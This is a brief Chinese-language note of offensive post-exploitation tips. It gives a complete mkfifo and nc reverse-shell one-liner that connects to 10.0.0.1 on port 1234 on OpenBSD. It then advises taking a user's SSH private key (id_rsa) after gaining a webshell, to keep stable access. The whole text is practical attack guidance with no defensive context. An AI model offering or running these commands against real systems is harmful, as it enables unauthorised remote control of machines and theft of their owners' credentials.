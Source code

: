 1. 当遇到openbsd需要反弹shell的时候，nc -e没有这个参数。
可以用命令`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

2.  拿到webshell后。cd到用户家目录，查找.ssh目录，查找id_rsa文件。拿到该文件可以通过ssh获得稳定的shell,避免掉线后重连的麻烦
